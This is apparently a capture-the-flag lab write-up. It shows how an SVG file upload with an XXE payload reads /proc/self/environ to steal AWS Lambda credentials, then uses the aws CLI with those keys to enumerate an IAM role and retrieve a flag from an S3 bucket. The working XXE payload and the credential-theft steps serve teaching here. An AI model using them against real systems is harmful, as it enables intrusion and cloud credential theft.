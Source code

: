 # File Upload XXE to Initial Access

As a first step, we have the ip address of the machine where we will perform an nmap scanning

nmap -sV -sC -Pn 52.52.110.46
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/write%20up.png)

we go inside 52.52.110.46:80 
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/write%20up2.png)
and go to the upload section

where we can insert documents or PDF,SVG,PNG,DOC
Now let's try inserting a PDF file 
We start by downloading the target PDF file from the specified S3 bucket. The file can be found at the following URL:
https://huge-logistics-dump.s3.us-west-1.amazonaws.com/uploads/file_XsbYgmXZ5n.pdf
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/write%20up3.png)
To exploit the XXE vulnerability, we need to inject a reference to an external entity into an XML document. This will cause the XML parser to read from a local file, such as /proc/self/environ, which contains environment variables that could include sensitive AWS credentials.

The XML payload can be constructed as follows:
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE replace [
    <!ENTITY xxe SYSTEM 'file:///proc/self/environ'>
]>
<svg>
    <text>&xxe;</text>
</svg>
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/write%20up4.png)
This code injects the contents of /proc/self/environ (which includes environment variables) into an SVG document. The XXE vulnerability allows you to extract sensitive information, such as AWS access keys, session tokens and other environment variables.

![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/write%20up5.png)
Lambda functions can access environment variables in the file /proc/self/environ. To retrieve sensitive data such as AWS credentials, you can export these environment variables:

export AWS_ACCESS_KEY_ID="<access_key>"

export AWS_SECRET_ACCESS_KEY="<secret_key>"

export AWS_SESSION_TOKEN="<secret_token>"

# ATTENTION

Important Notes:

![Schermata XXE]
(https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/writeup6.png)

Be sure to exclude the SHLVL parameter, as it may interfere with AWS credentials.
AWS session tokens are base64 encoded, so be sure to copy the entire token, including the final = or == characters.
AWS credentials beginning with AKIA indicate long-term keys, while those beginning with ASIA are temporary session keys that require a session token.
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/writeup7.png)

To obtain AWS entity information, run the following command:


aws sts get-caller-identity
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/writeup8.png)
If you already know the name of the role, you can obtain the details of the role using the command:

aws iam get-role --role-name S3PutObjectRole


This command returns the JSON output shown below and the role description refers to a new bucket named logistics-processing bucket. 
{
    "Role": {
        "Path": "/",
        "RoleName": "S3PutObjectRole",
        "RoleId": "AROARSCCN4A3XDUV2IJGA",
        "Arn": "arn:aws:iam::107513503799:role/S3PutObjectRole",
        "CreateDate": "2023-10-30T06:34:05Z",
        "AssumeRolePolicyDocument": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Effect": "Allow",
                    "Principal": {
                        "Service": "lambda.amazonaws.com"
                    },
                    "Action": "sts:AssumeRole"
                }
            ]
        },
        "Description": "Allows Lambda functions to write objects in the huge-logistics-dump bucket and read from the huge-logistics-processing bucket.",
        "MaxSessionDuration": 3600,
        "RoleLastUsed": {
            "LastUsedDate": "2023-11-22T16:51:21Z",
            "Region": "us-west-1"
        }
    }
}
This reveals a SQLite database called data-service.sqlite . 
SQLite is a popular and easy-to-use relational database system that developers often incorporate into their applications.

To see the files contained in the huge-logistics-processing bucket, use the command:

aws s3 ls huge-logistics-processing --recursive --human-readable --summarize

This command will list all the files in the bucket, showing their size in a readable format and a summary of the information.

In the bucket there is a file called flag.txt, you can retrieve it with the command:

![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/writeup9.png)

 aws s3 cp s3://huge-logistics-processing/TEMP-IT/flag.txt -

The - symbol at the end of the command indicates that you want to display the contents of the file directly in the terminal, instead of copying it to a local file

If you prefer to save the file locally, you can do so:
aws s3 cp s3://huge-logistics-processing/TEMP-IT/flag.txt /path/to/local/flag.txt
![Schermata XXE](https://github.com/jacopo1223/jacopo.github/blob/main/File%20Upload%20XXE%20to%20Initial%20Access/writeup10.png)
naturally replace /path/to/local with the path you wish to save the file.

# FLAG FOUND!!!
